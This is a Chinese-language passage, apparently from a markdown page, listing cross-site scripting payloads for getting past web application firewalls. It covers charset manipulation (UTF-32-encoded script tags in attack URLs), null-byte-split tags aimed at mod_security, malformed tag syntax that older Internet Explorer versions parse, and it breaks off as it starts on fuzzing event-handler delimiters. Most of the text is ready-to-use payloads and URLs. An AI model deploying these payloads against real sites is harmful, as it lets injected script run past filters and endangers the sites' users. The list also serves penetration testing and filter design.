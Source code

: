 字符集BUG

字符集BUG在IE中很普遍，最早的bug是UTF-7。如果能控制字符集编码，我们可以绕过99% 的WAF过滤。
 
  
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=XSS

可以控制编码，提交
```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=”><img
src=x onerror=prompt(0);>
```
可以修改为UTF-32编码形式
```	
∀㸀㰀script㸀alert(1)㰀/script㸀
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80
```
空字节

最长用来绕过mod_security防火墙，形式如下：
```
    <scri%00pt>alert(1);</scri%00pt>
    <scri\x00pt>alert(1);</scri%00pt>
    <s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
```
空字节只适用于PHP 5.3.8以上的版本

语法BUG

RFC声明中节点名称不能是空格，以下的形式在javascript中不能运行
```
    <script>alert(1);</script>
    <%0ascript>alert(1);</script>
    <%0bscript>alert(1);</script>
```
 
`<%`, `<//`, `<!`,`<?`可以被解析成`<`，所以可以使用以下的payload

```
    <//     style=x:expression\28write(1)\29> // Works upto IE7
```
参考http://html5sec.org/#71
 ```
    <!--[if]><script>alert(1)</script     --> // Works upto IE9
```
参考http://html5sec.org/#115
```
    <?xml-stylesheet     type="text/css"?><root     style="x:expression(write(1))"/> // Works in IE7
```
参考 http://html5sec.org/#77
```
    <%div%20style=xss:expression(prompt(1))>     // Works Upto IE7
```
Unicode分隔符

[on\w+\s*]这个规则过滤了所有on事件，为了验证每个浏览器中有效的分隔符，可以使用fuzzing方法测试0×00到0xff，结果如下：
 